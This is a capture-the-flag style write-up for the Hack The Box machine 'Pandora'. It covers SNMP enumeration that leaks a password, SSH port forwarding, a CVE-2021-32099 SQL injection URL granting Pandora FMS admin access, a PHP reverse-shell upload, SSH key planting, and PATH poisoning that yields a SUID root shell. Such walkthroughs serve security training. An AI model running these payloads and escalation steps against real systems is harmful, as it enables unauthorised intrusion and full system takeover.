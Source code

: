 ```yaml
---
title: "Pandora Hackthebox writeup"
header:
  teaser: "/assets/images/pandora/20220120210059.png"
tags: ["Hackthebox", "snmp", "port-forwarding", "Path-Poisoning"]
categories:
  - Linux Machines
ribbon: blue
date: 2022-05-21T00:51:12+02:00
toc: true
draft: false
---
```


In This Box we are going to enumerate the snmp port which will show user daniel with his password as a string in the output , we are going to login with ssh to him and will see there is another user matt which has the user.txt , after some enumeration we will see there is pandora fms running internally with user matt , we will port forward to exploit the vulnerable service then we will abuse a path poisoning in a custom binary for the root access

<!--more-->

# Scanning :

initial scan :

```bash
nmap -sV -A -T 4 $IP -oN nmap/intial.txt

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

And i have learned the lesson from previous machines so will scan udp as well just in case

```bash
sudo nmap -sV -sU  10.10.11.136

PORT      STATE    SERVICE VERSION
161/udp   open     snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
17219/udp filtered chipper
17989/udp filtered unknown
46532/udp filtered unknown
```

# Enumeration :

- port 80 : the web page :

![error](/assets/images/pandora/20220120195335.png)

there is only this form where we can send data , parameters are :

```cmd
fullName=ADam&email=adma@testet.com&phone=a&message=a
```

testing them for sqli , ssti and more found out this is just a rabbit Hole :'')

- we have found in the udp scan **snmp** is open so let's enumerate it , trying to enumerate with the community string "public" it works and we got results :

```bash
snmpwalk -c public -v1 10.10.11.136 > snmpwalk.out
```

you can query about one thing with `snmpwalk` But i want to see all the data , finally will see this in the output

```bash
iso.3.6.1.2.1.25.4.2.1.5.3068 = STRING: "-u daniel -p HotelBabylon23"
```

so we have a potential username and a password , we can try ssh with it :

```bash
ssh daniel@10.10.11.136
```

# Foothold :

i have logged in with `daniel` However user `matt` is the one contains the `user.txt` and he only can read it

we need to escalate to `matt` then `root`

![error](/assets/images/pandora/20220521124027.png)

after a lot of enumeration we will see :

![error](/assets/images/pandora/20220521124108.png)

the web page we have seen above is for the `html` But what about `pandora` ?

![error](/assets/images/pandora/20220521112241.png)

and we will see it is owned by the user `matt` which we are targeting.

![error](/assets/images/pandora/20220521123919.png)

so it seems we need to do **Port forwarding** to interact with this page at the Browser.

```bash
# @ your side
sudo ssh -N -L 0.0.0.0:9999:127.0.0.1:80 daniel@10.10.11.136
```

that will let us see this web page at `http://127.0.0.1:9999`

![error](/assets/images/pandora/20220120200414.png)

and we can see the version at the bottom of the page : **`v7.0NG.742_FIX_PERL2020`**

searching for Vulnerabilities for this version will find **`CVE-2021-32099`** which is SQL injection in the session_id , and the payload is [here](https://github.com/ibnuuby/CVE-2021-32099) and it is explained in the blog [here](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)

```bash
http://127.0.0.1:9999/pandora_console/include/chart_generator.php?session_id=a' UNION SELECT 'a',1,'id_usuario|s:5:"admin";' as data FROM tsessions_php WHERE '1'='1
```

all we need to do is to go back to **`http://127.0.0.1:9999/pandora_console/`**
and we will have admin access as the admin cookie has been added

![error](/assets/images/pandora/20220120200737.png)

Hence the site works with **PHP** we can know that from **wappalayzer** extension, so we need to upload a php reverse shell .

It is located at `/usr/share/webshells/php/php-reverse-shell.php` in Linux or you can download it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) By watching [here](https://www.youtube.com/watch?v=KX_jZsdgsJE&ab_channel=k4m1ll0-hackingchannel) we need to zip it then we can execute it at **`/pandora_console/extensions/shell.php`**

upload it at

```bash
admin tools > extensions manager > extension uploader
```

Then set your listener and will get the shell after execute it at
`/pandora_console/extensions/shell.php`

![error](/assets/images/pandora/20220120204254.png)

Once we are in we can generate ssh keys to get a stable shell

```bash
kali@kali:~$ ssh-keygen -f pandora
```

- normally we 'd use

```bash
ssh-copy-id -i pandora.pub matt@10.10.11.136
```

But hence we don't know matt's password , we would copy our key manually and add it to `authorized_keys` at matt's side

now copy `pandora.pub` into `authorized_keys` at the target machine , you can connect now:

```bash
kali@kali:~$  ssh matt@10.10.11.136 -i pandora
```

![error](/assets/images/pandora/20220521120958.png)

# Privilege escalation

Searching for SUID binaries found :

![error](/assets/images/pandora/20220521121149.png)

The `/usr/bin/pandora_backup` seems odd , we can explore it with **strings** but it is not installed on the box , we can move it to our side and explore it or Just try `strace` first

```bash
strace /usr/bin/pandora_backup
```

we can see in the output :

```bash
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
```

it seems it uses `tar` command without providing Full path so that may let us do **Path Poisoning** .

```bash
echo "cp /bin/bash /tmp/bash ; chmod +s /tmp/bash" > tar
chmod 777 tar
export PATH=.:$PATH
```

![error](/assets/images/pandora/20220521121710.png)

### pwned
